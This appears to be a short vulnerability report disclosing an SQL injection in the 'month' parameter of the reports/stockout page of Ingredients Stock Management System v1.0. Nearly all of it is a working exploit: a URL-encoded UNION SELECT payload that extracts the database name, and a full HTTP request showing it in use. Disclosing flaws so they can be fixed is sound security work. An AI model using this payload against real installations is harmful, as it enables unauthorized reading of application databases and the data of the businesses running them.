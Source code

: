 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/admin/?page=reports/stockout&month=

Vulnerability location: /isms/admin/?page=reports/stockout&month=, month

db_name = isms_db;

[+] Payload: /isms/admin/?page=reports/stockout&month=2022-07%27%20union%20select%201,2,3,4,5,6,7,database(),9,10--+ // Leak place ---> month

```sql
GET /isms/admin/?page=reports/stockout&month=2022-07%27%20union%20select%201,2,3,4,5,6,7,database(),9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/179383782-cc7d85ea-ce29-46b2-b719-335ec764c4b5.png)
